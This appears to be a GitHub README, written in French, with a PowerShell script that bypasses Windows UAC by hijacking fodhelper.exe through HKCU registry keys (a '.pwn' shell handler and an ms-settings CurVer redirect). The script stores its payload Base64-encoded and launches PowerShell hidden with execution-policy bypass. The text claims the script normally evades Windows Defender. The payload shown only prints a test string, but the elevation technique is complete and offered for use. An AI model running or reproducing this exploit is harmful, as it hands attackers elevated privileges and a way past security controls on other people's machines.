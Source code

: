 # bypass_UAC_fodhelper
Ce script profite du programme fodhelper.exe avec un IL High automatique pour contourner l'UAC. Il bypass normalement Windefender


$charge = "UABvAHcAZQByAHMAaABlAGwAbAAgAC0ATgBvAEUAeABpAHQAIAAtAGMAIABXAHIAaQB0AGUALQBPAHUAdABwAHUAdAAgACcARgBMAEEARwBfAFQARQBTAFQAJwA="
$target = "QwA6AFwAVwBpAG4AZABvAHcAcwBcAFMAeQBzAHQAZQBtADMAMgBcAGYAbwBkAGgAZQBsAHAAZQByAC4AZQB4AGUA"

New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
$charge_final = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($charge))
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $charge_final -Force
    
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force

Start-Process -NoNewWindow powershell "-nop -Windowstyle hidden -ep bypass -enc $target"
